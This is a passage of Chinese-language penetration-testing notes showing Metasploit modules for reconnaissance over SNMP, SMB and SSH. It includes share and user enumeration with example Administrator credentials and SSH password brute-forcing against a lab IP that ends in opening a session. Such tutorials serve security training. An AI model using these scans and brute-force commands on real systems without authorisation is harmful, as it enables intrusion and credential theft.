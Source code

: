 1. 定义： SNMP 全称 简单网络管理协议，由一组网络管理的标准组成，包含一个应用层协议、数据库模型和一组资源对象，该协议能够支持网络管理系统，用以检测连接到网络上的设备是否有任何引起管理上关注的情况

2. 执行： 目标主机开启 SNMP 服务：
	```shell
	use auxiliary/scanner/snmp/snmp_enum 
	```

​	`可以查到的信息： 服务器硬件信息、当前运行进程`

### 3. 基于 SMB 协议进行信息收集

1. 介绍： SMB 全称 服务器消息块，又称网络文件共享系统，是一种应用层网络传输协议，主要功能是使网络上的机器能够共享计算机文件、打印机、串行端口和通讯等资源

2. 扫描版本号
	`use auxiliary/scanner/smb/smb_enumshares`

3. 扫描共享文件(账号、密码)
	```shell
	use auxiliary/scanner/smb/smb_enumshares
	set SMBUser Administrator
	set SMBPASS 123456
	```

	

4. 使用 SMB_lookupsid  扫描系统用户的信息

	```shell
	use auxiliary/scanner/smb/smb_lookupsid
	set SMBUser Administrator
	set SMBPASS 123456
	```




### 4. 基于SSH协议信息收集

1. 查看 SSH 服务版本信息
	```shell
	use auxiliary/scanner/ssh/ssh_version     # 辅助模块
	set rhosts 192.168.18.137  # 设置目标参数
	run # 执行
	```

	

2. 对 SSH 暴力破解

	```shell
	use  auxiliary/scanner/ssh/ssh_login  # 使用攻击模块
	    set rhosts 192.168.18.137  # 设置目标参数
	    set  USERPASS_FILE  /home/jlb/root_userpass.txt  # 设置密码文件
	    set VERBOSE  true # 显示破解过程
	    run # 执行
	    seesions  # 显示会话
	    sessions -i 1 # 使用指定会话
	```
